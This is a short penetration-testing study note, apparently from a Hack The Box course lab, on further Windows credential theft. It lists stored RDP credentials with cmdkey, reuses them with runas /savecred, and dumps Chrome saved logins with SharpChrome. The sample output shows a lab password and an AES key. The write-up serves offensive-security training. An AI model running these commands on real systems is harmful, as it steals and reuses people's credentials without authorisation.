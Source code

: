 # Further Credential Theft

## Further Credential Theft

## **Cmdkey Saved Credentials**

### **Listing Saved Credentials**

The cmdkey command can be used to create, list, and delete stored usernames and passwords. Users may wish to store credentials for a specific host or use it to store credentials for terminal services connections to connect to a remote host using Remote Desktop without needing to enter a password.

```powershell
C:\htb> cmdkey /list

    Target: LegacyGeneric:target=TERMSRV/SQL01
    Type: Generic
    User: inlanefreight\bob
```

> we found credential stored for user call `bob` to connect on `TERMSRV/SQL01`

#### reuse to this credential

```powershell
PS C:\htb> runas /savecred /user:inlanefreight\bob "COMMAND HERE"
```

***

## **Browser Credentials**

### **Retrieving Saved Credentials from Chrome**

Users often store credentials in their browsers for applications that they frequently visit. We can use a tool such as [SharpChrome](https://github.com/GhostPack/SharpDPAPI) to retrieve cookies and saved logins from Google Chrome.

```powershell
PS C:\htb> .\SharpChrome.exe logins /unprotect

  __                 _
 (_  |_   _. ._ ._  /  |_  ._ _  ._ _   _
 __) | | (_| |  |_) \_ | | | (_) | | | (/_
                |
  v1.7.0

[*] Action: Chrome Saved Logins Triage

[*] Triaging Chrome Logins for current user

[*] AES state key file : C:\Users\bob\AppData\Local\Google\Chrome\User Data\Local State
[*] AES state key      : 5A2BF178278C85E70F63C4CC6593C24D61C9E2D38683146F6201B32D5B767CA0

--- Chrome Credential (Path: C:\Users\bob\AppData\Local\Google\Chrome\User Data\Default\Login Data) ---

file_path,signon_realm,origin_url,date_created,times_used,username,password
C:\Users\bob\AppData\Local\Google\Chrome\User Data\Default\Login Data,https://vc01.inlanefreight.local/,https://vc01.inlanefreight.local/ui,4/12/2021 5:16:52 PM,13262735812597100,bob@inlanefreight.local,**Welcome1**
```
